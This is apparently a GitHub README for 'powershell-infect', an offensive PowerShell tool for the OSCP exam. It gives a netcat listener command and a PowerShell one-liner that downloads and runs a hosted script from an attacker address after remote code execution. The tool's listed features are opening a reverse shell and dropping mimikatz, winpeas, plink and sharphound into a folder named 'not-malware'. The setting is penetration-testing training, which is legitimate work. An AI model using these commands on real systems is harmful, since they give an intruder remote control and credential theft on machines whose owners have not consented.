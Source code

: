 # powershell-infect
A powershell script for the OSCP Exam which sets up a windows reverse shell and automates the download of some useful windows post-exploit and privilege escalation tools.


## Usage

1. Change the paths in the script to reflect the locations of the binaries on your attack box


2. setup a netcat listener at port 4200 (or change the port in the script as well as the following command)
```
rlwrap nc -lvnp 4200
```

3. Host the script on a web server. Perhaps using
```
systemctl start apache2
```
and moving the infect.ps1 file to `/var/www/html` if you are on a modern kali system

4. Upon discovery of RCE in a windows system, execute the following command, replacing your attack box's ip with <RHOST>, and the path of the script on your locally hosted web server
```
powershell -c 'IEX (New-Object System.Net.WebClient).DownloadString('http://<RHOST></some/path/infect.ps1>; infect <RHOST>'
```


## Features
This script performs the following actions
1. checks architecture to determine which binaries to download
2. downloads powercat to memory
3. downloads the following to disk in a directory called `.\not-malware` (full path determined by the location of the RCE):
    - winpeas
    - mimikatz
    - plink
    - sharphound
4. sends a powercat reverse shell to a local listener at port 4200
